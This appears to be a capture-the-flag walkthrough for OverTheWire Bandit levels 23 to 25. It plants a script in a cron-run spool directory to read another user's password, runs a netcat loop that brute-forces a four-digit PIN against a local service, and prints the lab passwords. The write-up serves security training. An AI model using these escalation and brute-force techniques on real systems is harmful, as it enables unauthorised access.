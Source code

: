 ```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 "./$i"
        rm -f "./$i"
    fi
done


bandit23@melinda:/etc/cron.d$ mkdir -p /tmp/level24
bandit23@melinda:/etc/cron.d$ cd /tmp/level24
bandit23@melinda:/tmp/level24$ vim sp.sh
bandit23@melinda:/tmp/level24$ chmod 777 sp.sh
bandit23@melinda:/tmp/level24$ cp sp.sh /var/spool/bandit24/
bandit23@melinda:/tmp/level24$ ls
bandit24  ok  sp.sh
bandit23@melinda:/tmp/level24$ cat bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
password for bandit 24 is **"UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"**


## Bandit 24 to 25
Open a SSH session to bandit.labs.overthewire.org using putty.
Use the user name as **"bandit24"** and the above password **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**   
  
  Create following script to make a bruteforce...
```
#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0..9}{0..9}{0..9}{0..9}
do
    echo $passwd' '$a | nc localhost 30002 >> result &
done
```  
Enter following commands
```
$ sort result | uniq -u
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```  
password for bandit 25 is **"uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG"**

